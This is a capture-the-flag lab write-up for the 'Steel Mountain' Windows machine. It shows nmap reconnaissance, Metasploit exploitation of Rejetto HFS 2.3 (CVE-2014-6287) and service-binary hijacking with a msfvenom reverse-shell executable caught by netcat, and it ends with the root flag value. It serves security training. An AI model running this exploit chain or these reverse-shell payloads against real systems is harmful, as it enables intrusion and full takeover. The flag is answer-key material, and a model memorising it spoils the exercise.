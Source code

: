 ﻿
## Steel Mountain
Enumerate windows machine, gain initial access and escalate the privilege to administrator. 

 ### Meta
 The web page has a image of a Steel Mountain employee of the month and his name is Bill Harper. The image meta data (file name) has his name. 

### Recon 
Using `nmap` doing the reconnaissance on the machine.
The host is blocking the Ping probes, so using `-Pn` switch. 
Below are the ports and services that are opened. 

    $ nmap -p- -Pn -T5 10.10.19.41
    
    PORT      STATE SERVICE
    80/tcp    open  http
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    5985/tcp  open  wsman
    8080/tcp  open  http-proxy
    47001/tcp open  winrm
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49155/tcp open  unknown
    49161/tcp open  unknown
    49163/tcp open  unknown
    49164/tcp open  unknown
    MAC Address: 02:34:DB:ED:BE:0E (Unknown)
    
    Nmap done: 1 IP address (1 host up) scanned in 337.34 seconds

From the above, we can see another web server is running on port 8080 and is a HTTP file server which is running  **Rejetto HTTP  File Server 2.3** , which has vulnerable *[CVE-2014-6287.](https://www.exploit-db.com/exploits/34926)* 

### Exploiting the vulnerability 
Using the Metasploit `windows/http/rejetto_hfs_exec` exploit, executed the remote code on the victim machine and acquired a session with as bill. 

    msf5 exploit(windows/http/rejetto_hfs_exec) > show options 
    
    Module options (exploit/windows/http/rejetto_hfs_exec):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       HTTPDELAY  10               no        Seconds to wait before terminating web server
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      80               yes       The target port (TCP)
       SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT    8080             yes       The local port to listen on.
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI  /                yes       The path of the web application
       URIPATH                     no        The URI to use for this exploit (default is random)
       VHOST                       no        HTTP server virtual host
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    
    msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.118.59
    RHOSTS => 10.10.118.59
    msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
    RPORT => 8080
    msf5 exploit(windows/http/rejetto_hfs_exec) > show options 
    
    Module options (exploit/windows/http/rejetto_hfs_exec):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       HTTPDELAY  10               no        Seconds to wait before terminating web server
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS     10.10.118.59     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      8080             yes       The target port (TCP)
       SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT    8080             yes       The local port to listen on.
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI  /                yes       The path of the web application
       URIPATH                     no        The URI to use for this exploit (default is random)
       VHOST                       no        HTTP server virtual host
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    
    msf5 exploit(windows/http/rejetto_hfs_exec) > exploit 
    
    [*] Started reverse TCP handler on 10.10.115.73:4444 
    [*] Using URL: http://0.0.0.0:8080/FrWIZV
    [*] Local IP: http://10.10.115.73:8080/FrWIZV
    [*] Server started.
    [*] Sending a malicious request to /
    [*] Payload request received: /FrWIZV
    [*] Sending stage (180291 bytes) to 10.10.118.59
    [*] Meterpreter session 1 opened (10.10.115.73:4444 -> 10.10.118.59:49276) at 2020-07-01 23:35:23 +0000
    [!] Tried to delete %TEMP%\XQkwWxweueC.vbs, unknown result
    [*] Server stopped.
    
    meterpreter > clear
    [-] Unknown command: clear.
    meterpreter > sessions
    Usage: sessions <id>
    
    Interact with a different session Id.
    This works the same as calling this from the MSF shell: sessions -i <session id>
    
    meterpreter > sysinfo 
    Computer        : STEELMOUNTAIN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

After exploiting with a remote code execution,  a meterpreter session created and the flag is available in `C:\Users\bill\Desktop` as `user.txt`

### Privilege Escalation
We are into the remote host with a regular user (bill) and needs to escalate the privileges to Administrator account.

Using the [Powerup utility](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) lets find out if there are any misconfigurations. Download the power shell code and upload to victim machine Metasploit's `upload` utility. 
Load the Powershell from meterpreter `load powershell` and execute the `PowerUp.ps1` code with `Invoke-AllChecks`.

    meterpreter > upload /root/PowerUp.ps1
    [*] uploading  : /root/PowerUp.ps1 -> PowerUp.ps1
    [*] Uploaded 549.65 KiB of 549.65 KiB (100.0%): /root/PowerUp.ps1 -> PowerUp.ps1
    [*] uploaded   : /root/PowerUp.ps1 -> PowerUp.ps1
    meterpreter > load powershell 
    Loading extension powershell...Success.
    meterpreter > pwd
    C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
    meterpreter > ls -lrt
    Listing: C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
    ====================================================================================
    
    Mode              Size    Type  Last modified              Name
    ----              ----    ----  -------------              ----
    100666/rw-rw-rw-  562841  fil   2020-07-02 00:13:19 +0000  PowerUp.ps1
    40777/rwxrwxrwx   0       dir   2020-07-01 23:35:21 +0000  %TEMP%
    100666/rw-rw-rw-  174     fil   2019-09-27 11:07:07 +0000  desktop.ini
    100777/rwxrwxrwx  760320  fil   2019-09-27 09:24:35 +0000  hfs.exe
    
    meterpreter > powershell_shell 
    PS > . .\PowerUp.ps1
    PS > Invoke-AllChecks

From the output, we can see *AdvancedSystemCareService9* can be a restart-able service and also the path is writable. Using this mis-configuration on the machine, we can push our own code to this service.  

    ServiceName    : AdvancedSystemCareService9
    Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
    ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
    StartName      : LocalSystem
    AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
    CanRestart     : True
    
    ServiceName    : AdvancedSystemCareService9
    Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
    ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
    StartName      : LocalSystem
    AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
    CanRestart     : True

Get into the shell and stop the AdvancedSystemCareService9 service. 
   `sc stop AdvancedSystemCareService9`
    
Using `msfvenom` lets create a malicious file same as service file name - ASCService.exe, which contains reverse shell.  

`$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.115.73 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe`


  Upload the malicious file to the victim using `upload` utility from meterpreter.   

    meterpreter > pwd
    C:\Program Files (x86)\IObit\Advanced SystemCare
    meterpreter > upload ASCService.exe
    [*] uploading  : ASCService.exe -> ASCService.exe
    [*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): ASCService.exe -> ASCService.exe
    [*] uploaded   : ASCService.exe -> ASCService.exe

- In a new terminal session, create a listening service using netcat to listen for reverse shell.: 
-    `nc -lnvp 4443`

- Start the AdvanceCareSystemService9, which now executes our malicious code:
    `sc start AdvancedSystemCareService9`

- The netcat listening service on the terminal will get the reverse shell with Administrator account and the root flag is available in `C:\Users\Administrators\Desktop\root.txt` as 9af5f314f57607c00fd09803a587db80.
